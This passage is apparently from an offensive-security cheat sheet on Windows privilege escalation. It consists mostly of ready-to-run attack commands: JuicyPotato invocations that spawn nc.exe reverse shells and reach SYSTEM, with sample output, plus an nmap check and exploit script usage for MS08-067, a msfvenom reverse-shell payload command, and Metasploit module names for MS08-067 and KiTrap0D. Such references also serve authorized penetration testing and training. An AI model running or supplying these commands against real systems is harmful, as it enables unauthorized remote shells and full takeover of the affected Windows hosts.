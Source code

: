 3. Execute JuicyPotato to run a privileged command.

    ```powershell
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```

## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```


### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7 

'KiTrap0D' User Mode to Ring Escalation (MS10-015)

```powershell
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```
